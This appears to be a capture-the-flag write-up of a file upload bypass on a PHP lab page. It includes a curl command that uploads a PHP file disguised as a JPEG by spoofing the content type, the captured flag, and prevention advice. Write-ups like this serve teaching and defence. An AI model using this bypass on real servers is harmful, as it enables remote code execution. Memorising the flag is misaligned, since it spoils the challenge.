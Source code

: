 # File Upload Bypass Vulnerability

## Overview
The upload feature at `/index.php?page=upload` allows attackers to upload PHP files by tricking the application to accept non-image files.

---

## Discovery

1. Upload form only allows `.jpg` and `.jpeg` files.
2. JavaScript blocks empty uploads, but not actual file content.
3. The app checks file extensions but not the real content.

---

## Exploitation

### **cURL Content-Type Spoofing**

```bash
echo '<?php echo "hello"; ?>' > test.php

curl http://<IP_ADDRESS>/index.php?page=upload \
  -F "Upload=Upload" \
  -F "uploaded=@test.php;type=image/jpeg" \
  -F "MAX_FILE_SIZE=100000" | grep "flag"
```
- The PHP file is uploaded as if it’s a JPEG by spoofing the content-type.

---

## Flag

`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

---

## Security Impact

- **Remote Code Execution:** Upload and run PHP code on the server
- **Data Theft:** Access sensitive files and data
- **System Compromise:** Full server takeover possible

---

## Prevention

1. **Validate actual file content, not just extensions**
2. **Use libraries (like fileinfo) for file type checks**
3. **Re-encode images on the server**
4. **Store uploads in non-executable locations**
5. **Apply a strict Content Security Policy**

---
